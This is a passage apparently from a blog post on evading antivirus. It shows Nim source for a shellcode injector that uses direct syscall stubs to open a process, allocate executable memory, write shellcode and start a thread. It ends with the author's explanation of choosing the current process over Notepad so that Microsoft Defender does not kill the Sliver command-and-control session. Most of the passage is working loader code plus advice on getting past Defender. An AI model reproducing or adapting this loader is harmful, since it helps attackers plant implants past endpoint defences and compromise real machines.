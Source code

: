     VirtualProtect(cast[LPVOID](syscallStub_NtOpenP), SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, addr oldProtection);

    # define NtAllocateVirtualMemory
    let NtAllocateVirtualMemory = cast[myNtAllocateVirtualMemory](cast[LPVOID](syscallStub_NtAlloc));
    VirtualProtect(cast[LPVOID](syscallStub_NtAlloc), SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, addr oldProtection);

    # define NtWriteVirtualMemory
    let NtWriteVirtualMemory = cast[myNtWriteVirtualMemory](cast[LPVOID](syscallStub_NtWrite));
    VirtualProtect(cast[LPVOID](syscallStub_NtWrite), SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, addr oldProtection);

    # define NtCreateThreadEx
    let NtCreateThreadEx = cast[myNtCreateThreadEx](cast[LPVOID](syscallStub_NtCreate));
    VirtualProtect(cast[LPVOID](syscallStub_NtCreate), SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, addr oldProtection);

    var status: NTSTATUS
    var success: BOOL
    var bytesWritten: SIZE_T

    success = GetSyscallStub
    ("NtOpenProcess", cast[LPVOID](syscallStub_NtOpenP));
    success = GetSyscallStub
    ("NtAllocateVirtualMemory", cast[LPVOID](syscallStub_NtAlloc));
    success = GetSyscallStub
    ("NtWriteVirtualMemory", cast[LPVOID](syscallStub_NtWrite));
    success = GetSyscallStub
    ("NtCreateThreadEx", cast[LPVOID](syscallStub_NtCreate));
    
    status = NtOpenProcess
    (&pHandle,PROCESS_ALL_ACCESS, &oa, &cid)
    status = NtAllocateVirtualMemory
    (pHandle, &ds, 0, &sc_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
    status = NtWriteVirtualMemory
    (pHandle, ds, shellcode[0].addr, sc_size-1, addr bytesWritten);
    status = NtCreateThreadEx
    (&tHandle, THREAD_ALL_ACCESS, NULL, pHandle,ds, NULL, FALSE, 0, 0, 0, NULL);

    echo "Finished: Check for your shell after a few seconds"
    WaitForSingleObject(tHandle, -1)
    CloseHandle(tHandle)

    status = NtClose(tHandle)
    status = NtClose(pHandle)
{% endhighlight %}

You may notice that I am injecting into the current process by getting its ID like so: "let cProcess = GetCurrentProcessId()". This is because I found that injecting into something like Notepad I found was a massive red flag to Defender. So although I would get my connection back, as soon as I did something very basic with Sliver such as upload a file the session would be killed. 
